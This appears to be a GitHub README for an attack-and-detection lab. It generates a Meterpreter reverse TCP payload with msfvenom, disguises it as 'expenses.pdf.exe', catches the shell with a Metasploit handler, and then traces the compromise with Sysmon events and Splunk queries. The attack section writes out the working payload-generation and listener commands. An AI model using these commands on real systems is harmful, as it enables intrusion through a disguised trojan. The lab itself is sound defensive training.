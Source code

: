 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview

This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used

- **Kali Linux** (attacker machine)
- **Windows 10** (victim machine)
- **Splunk**
- **Sysmon**
- **Metasploit framework (`msfvenom`, `msfconsole`)**

## Attack Simulation

Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Kali Linux, Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken

1. **Finding an open port** 

   Find an open port using `nmap -A -Pn <Victim IP address>`

2. **Generating the payload**

   Create a meterpreter reverse tcp payload using msfvenom on the kali linux machine

   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
   -f exe -o expenses.pdf.exe
   ```

3. **Deliver the payload to the victim machine**

   via email, USB, etc.
4. **Establish a Meterpreter session via msfconsole**

   To receive the reverse shell, Metasploit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload

   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

   ![msf exploit](images/Meterpreter_exploit.png)

## Detection

Tools used: Windows 10, Sysmon, Splunk

### Initial Detection: Unusual Network Connection

Looking at event data with EventCode=3 there was an unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`, indicating a Potential compromise.

Looking at more events using the spl query of:

```bash
 index=endpoint EventCode=3 <attacker IP address>
```

An event is found where:

![Image showing suspicious file](images/Splunk_Meterpreter_Process.png)

From the above we can see

```bash
DestinationIp: <attacker IP address>
sourceIp: <victim IP address>
Image: C:\Users\<User>\Downloads\expenses.pdf.exe
```

Indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel

Using the query of:

```bash
index=endpoint EventCode=1 expenses.pdf.exe
```

![shell spawned from expenses](images/Splunk_Meterpreter_Spawn_Shell.png)

An event indicating cmd.exe was created from the parent process of `expenses.pdf.exe`\
From this we can take the process guid to find what commands have been executed by the shell

```bash
index=endpoint process_guid = <process_guid>
| table _time, ParentImage,  Image, CommandLine
```

From the above query we get the resut:
![Image showing what commands executed](images/Splunk_Meterpreter_Commands_Exec_part_1.png) 
![Image part 2](images/Splunk_Meterpreter_Commands_Exec_part_2.png)

Through this image resulting from using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user.
